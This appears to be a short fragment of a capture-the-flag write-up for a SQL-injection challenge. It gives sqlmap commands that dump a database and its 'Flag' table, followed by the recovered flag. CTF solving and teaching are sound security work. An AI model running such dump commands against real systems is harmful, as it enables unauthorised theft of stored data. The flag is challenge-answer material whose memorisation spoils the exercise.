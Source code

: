Same payload will work here too!!

payload: `sqlmap -r req --dump` or `sqlmap -r req -D railway -T Flag --dump` 

Flag: `bucket{h4d35t_sql1_2b05bc}`
